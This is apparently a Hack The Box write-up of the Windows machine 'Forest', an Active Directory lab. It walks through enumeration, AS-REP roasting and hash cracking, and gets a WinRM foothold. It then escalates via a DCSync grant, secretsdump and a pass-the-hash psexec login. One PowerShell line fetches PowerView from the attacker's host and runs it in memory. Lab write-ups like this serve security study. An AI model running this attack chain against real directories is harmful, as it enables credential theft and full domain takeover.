

# Forest (Windows)

## Enumeration

### Nmap
I began my enumeration with an aggressive nmap scan because some boxes take some time to scan.
```
nmap -p- -Pn -T4 10.10.10.161 --min-rate=5000

-p- to scan all ports
-Pn for a no ping scan (scans open ports only)
-T4 for an aggressive (3 is default) timing; can give unreliable results, but is faster than the default
--min-rate=5000 for a min rate of 5000 packets per second; can also give unreliable results if it's too fast
```


Then, I do a default NSE script scan with version detection on the ports.
```
nmap -sC -sV -p 53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -Pn -T4 10.10.10.161 --min-rate=5000

-sC for default NSE script
-sV for version detection
```


### Enum4linux
I then use enum4linux to get a Windows enumeration on my Linux machine.
```
enum4linux 10.10.10.161
```
  
I get a bunch of users on the machine.

### Ldapsearch
Then I use ldapsearch to search the LDAP directory server to get the domain name.
```
ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts

-H for the target host / LDAP server
-x for simple authentication (instead of SASL)
-s for scope (here, it is `base`)
namingcontexts to request for namingContexts
```


I find the domain name htb.local (DC=htb,DC=local)

### AS-REP Roast
I start by using impacket's GetNPUsers to check for all domain users
```
impacket-GetNPUsers -dc-ip 10.10.10.161 -request 'htb.local/'

-dc-ip for the domain controller ip
-request to request TGT for users
'htb.local/' to request from the htb.local domain
```


^ I then saved the above results to a file named svc-afresco.hash.

## Initial Foothold
### Hashcat
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ hashcat -h | grep -i "kerberos"                                                              
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

-h for help (lists all the modes

grep for searching for a specific word
-i to ignore case and search for the word "kerberos"
```
AS-REP is 18200, so I then use hashcat to crack the password for svc-alfresco.
```
hashcat -m 18200 svc-alfresco.hash /usr/share/wordlists/rockyou.txt

-m for mode 18200 (AS-REP)
svc-alfresco.hash to use the hash file that I saved earlier
rockyou.txt as a default wordlist to use for hashcat
```

I get the password s3rvice for the user svc-alfresco.

### Evil-WinRM
During the nmap scan, I see that port 5985 (wsman) and 47001 (winrm) are open.
I use evil-winrm to log into the machine as user svc-alfresco with the password s3rvice.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice

-i ip
-u user
-p password
```
Now that I"m in the machine, I can just use `cat` to read the contents of the user.txt file.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop cat user.txt
820aabe21740a9c9aac625ca2822e534
```

## Privilege Escalation
*Skipped uploading Bloodhound here*  

Bloodhound shows that here's 2 jumps needed to get from svc.alfresco to Administrator.  
Svc.alfresco is a member of Service Accounts, which is a member of Privileged IT Accounts, which is a member of Account Operators.  
AKA svc.alfresco is a member of Account Operators.  
The Account Operators has a Generic All permissions on the Exchange Windows Permissions group. Right-clicking that and selecting `help` shows Abuse Info.

  
The Abuse Info shows me exactly what command(s) to use.

Add svc-alfresco to the Exchange Windows Permissions group.
```
*Evil-WinRM* PS C:\users\svc-alfresco\desktop> net group "Exchange Windows Permissions" svc-alfresco /add /domain
```

Import PowerView and obtain DCSync permission on svc-alfresco.
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> (New-Object System.Net.WebClient).DownloadString('http://10.10.14.89/PowerView.ps1') | IEX
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $SecPass = ConvertTo-SecureString 's3rvice' -AsPlainText -Force
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> $Cred = New-Object System.Management.Automation.PSCredential('htb.local\svc-alfresco', $SecPass)
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> Add-ObjectACL -PrincipalIdentity marvel -Credential $Cred -Rights DCSync
```

### Secretsdump
I then use secretsdump to dump the administrator hash.
```
secretsdump.py svc-alfresco:s3rvice@10.10.10.161
```


### Impacket-psexec
I use impacket's psexec to log into the machine as the administrator, using the hash found in the previous step.
```
┌──(kali㉿kali)-[~/Desktop/htb/machines/forest]
└─$ impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.10.10.161

-hashes for using a hash on the administrator user instead of a password
```

Finally, I `dir` to list the files in the directory and `type` to read the root.txt file.
```
C:\users\administrator\desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 61F2-A88F

 Directory of C:\users\administrator\desktop

09/23/2019  01:15 PM    <DIR>          .
09/23/2019  01:15 PM    <DIR>          ..
12/01/2023  02:01 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)  10,436,100,096 bytes free

C:\users\administrator\desktop>type root.txt
9a782c7840130cbb08a78b9cdb607171
```
